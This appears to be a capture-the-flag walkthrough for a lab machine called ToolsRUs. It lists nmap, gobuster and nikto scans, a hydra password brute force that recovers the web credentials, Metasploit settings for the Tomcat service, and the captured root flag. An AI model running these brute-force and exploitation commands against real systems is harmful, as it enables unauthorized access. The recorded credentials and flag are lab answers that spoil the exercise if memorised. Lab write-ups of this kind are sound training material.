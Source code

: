 # ToolsRUs

IP: 10.10.154.123

![image](https://user-images.githubusercontent.com/44063862/160221235-156f6012-65f8-4999-9204-590ac21d8733.png)

### Penetration Testing Methodology

![image](https://user-images.githubusercontent.com/44063862/160220590-db70b7dd-a85c-407f-b5d8-e42e9fa58dc3.png)

**Reconnasance**
* nmap

**Enumerating**
* gobuster
* hydra

**Exploitation**
* Apache Tomcat

**Privilege Escalation**
* Apache Tomcat/Coyote JSP engine 1.1

**Capture-the-flag**
* flag.txt

----------------------------------------------------------------
### Walkthrough

> nmap -A -v 10.10.154.123

![image](https://user-images.githubusercontent.com/44063862/160220987-1488e56b-495e-432b-b918-d18d0210edca.png)

From the nmap scanning. I found that 4 port open. Which is

* 22 (ssh)
* 80 (http)
* 1234 (http)
* 8009 (ajp13)

> gobuster dir -u 10.10.154.123 -w /root/Lists/directory-list-2.3-medium.txt

![image](https://user-images.githubusercontent.com/44063862/160221188-392ad5e9-feee-40ae-a7b8-10ae513d9ca2.png)

* /guidelines
* /protected

![image](https://user-images.githubusercontent.com/44063862/160221062-7041cfd6-1a21-43a5-ab6f-fecdf772b4f1.png)
--> msg for Bob 

![image](https://user-images.githubusercontent.com/44063862/160221118-9f0c0a30-8719-4f27-8898-9158da18f847.png)
--> need authentication

> hydra -l bob -P /usr/share/wordlists/rockyou.txt -f 10.10.154.123 http-get /protected/

![image](https://user-images.githubusercontent.com/44063862/160221388-f0cc4148-fdef-4f19-8ab4-a5970257940f.png)

Username: Bob
Password: bubbles

**Other web service**

http://10.10.154.123:1234/

![image](https://user-images.githubusercontent.com/44063862/160221451-8e13a0aa-47fe-4626-9f74-e58369e92098.png)

Apache Tomcat/7.0.88

> nikto -h http://10.10.154.123/

![image](https://user-images.githubusercontent.com/44063862/160222653-dbc23994-9476-41de-bf8c-0b5a74ce12ad.png)

Apache/2.4.18

Find vulnerability for **Apache Tomcat/Coyote JSP engine 1.1**

```
msfconsole -q
set HttpUsername bob
set HttpPassword bubbles
set RHOSTS 10.10.231.52
set RPORT 1234
options
```

![image](https://user-images.githubusercontent.com/44063862/160222883-5cfe51ca-f2dc-483e-9d34-759e7d222022.png)

> run

![image](https://user-images.githubusercontent.com/44063862/160223129-1db51206-c050-4bc3-96cc-4a69ad9a25d9.png)

> getuid

![image](https://user-images.githubusercontent.com/44063862/160223136-11d8b898-555b-4375-9567-d98739e6e6ab.png)

> cat /root/flag.txt

![image](https://user-images.githubusercontent.com/44063862/160223208-dfb7ed1c-a715-451d-99ba-1302c8622dc9.png)

flag.txt: ff1fc4a81affcc7688cf89ae7dc6e0e1



